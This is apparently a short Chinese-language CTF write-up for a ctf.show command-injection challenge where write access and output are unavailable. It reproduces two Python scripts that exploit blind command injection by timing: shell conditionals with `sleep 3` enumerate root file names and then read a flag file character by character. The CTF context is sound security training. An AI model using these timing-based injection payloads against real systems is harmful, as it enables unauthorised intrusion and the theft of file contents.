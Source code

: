 试了，没有写权限没所以不能写入文件了。

也没有回显。

师傅们的脚本。

猜测文件名：

```python
import requests
import time
import string

str = string.ascii_letters + string.digits
result = ""
for i in range(1, 5):
    key = 0
    for j in range(1, 15):
        if key == 1:
            break
        for n in str:
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)
            # print(payload)
            url = "http://5c76069b-da3c-40a2-ac52-718a1c84fe56.chall.ctf.show/?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))
            except:
                result = result + n
                print(result)
                break
            if n == '9':
                key = 1
    result += " "

```

得到flag所在文件 f149_15_h3r3，接着盲注文件内容

```python
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
	print(j)
	if key==1:
		break
	for n in str:
		payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
		#print(payload)
		url="http://877848b4-f5ed-4ec1-bfc1-6f44bf292662.chall.ctf.show?c="+payload
		try:
			requests.get(url,timeout=(2.5,2.5))
		except:
		    result=result+n
		    print(result)
		    break

```
